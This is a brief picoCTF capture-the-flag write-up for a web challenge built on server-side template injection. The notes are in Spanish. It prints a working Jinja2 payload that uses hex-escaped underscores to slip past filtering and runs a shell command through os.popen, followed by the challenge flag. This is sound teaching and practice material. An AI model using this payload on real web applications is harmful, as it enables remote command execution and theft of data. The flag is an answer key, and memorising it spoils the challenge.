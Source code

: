 #### Description
I made a cool website where you can announce whatever you want! Try it out!I heard templating is a cool and modular way to build web apps! Check out my website [here](http://rescued-float.picoctf.net:54188/)!
#### Hints 
- What does a SQL database contain?
- Server Side Template Injection


```
insertamos la sig inyeccion sacada de la pagina: 


{{request|attr('application')|attr('\x5f\x5fglobals\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fbuiltins\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fimport\x5f\x5f')('os')|attr('popen')('cat flag')|attr('read')()}}


y ya nos da la bandera

# picoCTF{s4rv3r_s1d3_t3mp14t3_1nj3ct10n5_4r3_c001_99fe4411}
```


